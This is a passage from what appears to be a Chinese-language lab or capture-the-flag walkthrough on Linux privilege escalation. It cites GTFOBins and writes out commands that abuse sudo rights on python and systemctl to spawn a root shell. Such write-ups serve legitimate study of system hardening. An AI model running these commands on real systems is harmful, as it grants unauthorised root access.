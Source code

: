 若是不知道这两个提权方式，可以访问`https://gtfobins.github.io/`查看用法

```shell
sudo python -c 'import os; os.system("/bin/sh")'
```

![](./pic-torment/46.jpg)

另一个`systemctl`提权，这个提权方式很多，可以通过`.service`文件提权，因为这里没有指定特定的服务，只是这个命令，所以是可以扩展使用的

![](./pic-torment/47.jpg)

```
sudo systemctl
!sh
```

![](./pic-torment/48.jpg)
